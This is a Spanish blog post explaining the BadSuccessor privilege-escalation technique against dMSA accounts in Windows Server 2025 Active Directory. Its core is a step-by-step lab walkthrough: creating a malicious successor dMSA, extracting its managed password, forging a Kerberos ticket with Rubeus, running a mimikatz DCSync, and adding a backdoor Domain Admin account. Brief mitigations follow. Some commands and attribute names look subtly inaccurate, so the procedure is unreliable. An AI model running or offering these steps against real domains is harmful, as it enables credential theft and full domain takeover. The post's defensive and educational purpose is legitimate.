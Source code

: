 ```yaml
---
title: BadSuccessor - Escalada de privilegios abusando de dMSA en Active Directory
date: 2025-05-22 09:00:00 
categories: [CIBERATAQUES]
tags: [ciberseguridad, ciberataque, vulnerabilidad]
description: Yuval Gordon, investigador de Akamai, ha descubierto una técnica avanzada de escalada de privilegios en entornos Windows Server 2025 conocida como BadSuccessor.
image: /assets/136/preview1.png
---
```


Yuval Gordon, investigador de Akamai, ha descubierto una técnica avanzada de escalada de privilegios en entornos Windows Server 2025 conocida como BadSuccessor. Esta técnica depende de una nueva funcionalidad legítima: las Cuentas de Servicio Administradas Delegadas (dMSA).

### ¿Qué son las dMSA?

Las Delegated Managed Service Accounts (dMSA) fueron introducidas en Windows Server 2025 como una mejora sobre las Managed Service Accounts (MSA) y Group Managed Service Accounts (gMSA). Su objetivo es permitir una gestión centralizada, segura y delegada de cuentas de servicio, incluyendo:

- Rotación automática de contraseñas.
- Restricción por máquina (sólo equipos autorizados pueden usarla).
- Delegación de control para facilitar la administración sin comprometer el principio de privilegios mínimos.

Sin embargo, es precisamente esta capacidad de delegación la que abre la puerta a BadSuccessor.

### La idea detrás de BadSuccessor

BadSuccessor se basa en el abuso de la funcionalidad que permite delegar la gestión de una dMSA. Mediante esta característica, es posible que una entidad (usuario o grupo) administre otra cuenta de servicio sin necesidad de privilegios directos de dominio.

El problema aparece cuando:

- Una cuenta de bajo privilegio es delegada para gestionar una dMSA privilegiada (por ejemplo, usada por un servicio con permisos elevados).
- Esta cuenta crea una nueva dMSA "sucesora" que se declara como reemplazo de la dMSA original.
- Active Directory acepta al sucesor como legítimo, permitiéndole heredar privilegios y usos de la cuenta original.

Este flujo puede usarse para escalar privilegios dentro del dominio sin explotar vulnerabilidades, sino simplemente configuraciones laxas de delegación.

## Escenario de ataque

- El atacante crea una nueva cuenta dMSA, por ejemplo: attacker$.
- El atacante modifica los atributos del objeto de AD de la dMSA objetivo (por ejemplo, svc_SQLProd$) para vincular la nueva dMSA (attacker$) como su sucesora.
- El atacante solicita un TGT (Ticket Granting Ticket) a través de Kerberos usando su nueva cuenta attacker$.
- El DC emite un TGT válido para attacker$, que incluye acceso y permisos equivalentes a los de la cuenta original (target user, como svc_ejemplo$). Como resultado, el atacante actúa con privilegios heredados. Si la dMSA original era miembro de grupos como Domain Admins, ahora attacker$ tiene acceso al dominio completo.

<img src="/assets/136/136-1.jpg"  width="500" height="500">

### Requisitos del ataque

- Control parcial o total de una cuenta con delegación sobre una dMSA privilegiada.
- Acceso a un entorno de dominio con controladores de dominio actualizados a Windows Server 2025.
- Conocimiento de las estructuras de delegación en Active Directory.

### Ejemplo - Escenario de ataque completo: De usuario delegado a Domain Admin

**Infraestructura del laboratorio**
- Dominio: lab.local
- DC: DC01.lab.local (Windows Server 2025)
- Cuenta dMSA privilegiada: svc_SQLProd$ (usada por un SQL Server miembro de Domain Admins)
- Usuario con delegación: john.smith (puede gestionar la cuenta svc_SQLProd$)

**Objetivo**

Elevar privilegios desde john.smith hasta obtener un TGT como svc_SQLProd$, lo cual permite realizar acciones como un Domain Admin.

**1. Verificar delegación sobre la dMSA**

    Get-ACL "AD:\CN=svc_SQLProd$,CN=Managed Service Accounts,DC=lab,DC=local" | Format-List

Verifica que john.smith tenga permisos como WriteProperty, GenericAll, o similares.

**2. Crear una dMSA sucesora**

    New-ADServiceAccount -Name "svc_Malicious" -RestrictToOutboundAuthenticationOnly:$true
    
    # Delegar la gestión (herencia/sucesión)
    Set-ADObject -Identity "CN=svc_SQLProd$,CN=Managed Service Accounts,DC=lab,DC=local" \
      -Add @{"msDS-ManagedBy"="CN=svc_Malicious,CN=Managed Service Accounts,DC=lab,DC=local"}

Este paso vincula la nueva dMSA como sucesora, heredando la funcionalidad de la original. 

**3. Instalar la dMSA en una máquina autorizada**

    Install-ADServiceAccount -Identity svc_Malicious
    Test-ADServiceAccount -Identity svc_Malicious

**4. Obtener el secreto gestionado (hash o contraseña)**

Instala el módulo RSAT si es necesario:

    Import-Module ActiveDirectory
    Get-ADServiceAccount svc_Malicious -Properties msDS-ManagedPassword

Alternativamente, usa PowerView o DSInternals para extraerlo:

    Get-ADComputerServiceAccountKey -AccountName svc_Malicious

**5. Solicitar un TGT con Rubeus**

    Rubeus.exe asktgt /user:svc_Malicious$ /rc4:<NTLM_HASH> /domain:lab.local

Y cargarlo en la sesión actual:

    Rubeus.exe ptt /ticket:<base64_TGT>

**6. Acciones como Domain Admin**
   
Si svc_SQLProd$ es miembro de Domain Admins, ahora el atacante puede:

    # Enumerar controladores
    nltest /dclist:lab.local
    
    # DCSync
    mimikatz "lsadump::dcsync /user:Administrator"
    
    # Agregar usuario administrador
    net user backdoor P@ssw0rd! /add
    dsmod group "CN=Domain Admins,CN=Users,DC=lab,DC=local" -addmbr "CN=backdoor,CN=Users,DC=lab,DC=local"

### Mitigaciones recomendadas

1. **Auditar la delegación de control** en cuentas de servicio: ninguna cuenta de bajo privilegio debería tener permisos sobre cuentas usadas por servicios críticos.

2. **Revisar el uso de sucesores** en configuraciones de dMSA: documentar qué cuentas pueden sustituir a otras.

3. **Limitar la creación de nuevas dMSA** a roles administrativos específicos y supervisados.

4. **Supervisar cambios en objetos dMSA** mediante logging y SIEM.

### Conclusión

BadSuccessor es un excelente ejemplo de cómo una funcionalidad legítima puede transformarse en un vector de ataque si no se configura correctamente. La aparición de dMSA en Windows Server 2025 introduce ventajas significativas para la gestión de servicios, pero también requiere una revisión cuidadosa de las políticas de delegación. Este tipo de investigaciones demuestran que la seguridad no está sólo en los parches, sino en el diseño y la gobernanza del entorno.






